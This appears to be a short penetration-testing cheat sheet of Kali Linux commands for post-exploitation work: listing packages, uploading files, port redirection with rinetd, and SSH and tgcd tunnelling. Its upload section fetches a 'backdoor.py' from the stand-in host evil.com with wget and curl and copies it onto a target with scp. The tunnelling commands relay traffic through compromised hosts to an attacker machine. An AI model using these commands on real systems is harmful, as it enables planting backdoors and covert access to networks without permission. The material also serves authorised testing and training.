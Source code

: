 
##### Listing Packages

```
Kali> dpkg -l
Kali> rpm -qa
```

##### Uploading Files

```
Kali> wget http://evil.com/backdoor.py
Kali> curl http://evil.com/backdoor.py
Kali> scp ~/backdoor.py user@$TARGET:tmp/backdoor.py
```

##### Port Redirection

> ###### rinetd

```
rinetd

vi /etc/rinetd.conf
# bind      # port        # connect       # port
a.b.c.d     53            e.f.g.h         80
```

##### SSH

> ###### Generate key

```
Kali> ssh-keygen -t rsa
```

> ###### SSH with Key

```
Kali> ssh -i key_file user@host
```

> ###### SSH Tunneling

```
# Local Tunnel
Kali> ssh $ATTACKER -L 3000:$TARGET:2222

# Remote Tunnel
Kali> ssh $TARGET -R 2222:localhost:3000

# Dynamic Tunnel to $TARGET
Kali> ssh -D 127.0.0.1:3000 -N username@$TARGET
```

> ###### tgcd tunneling

```
Kali> tgcd -L -p 9999 -q 40000
Kali> tgcd -C -s IP:9999 -c ATTACKER:40000
Kali> iptables -t nat -A OUTPUT -d IP -j DNAT --to-destination 127.0.0.1
```
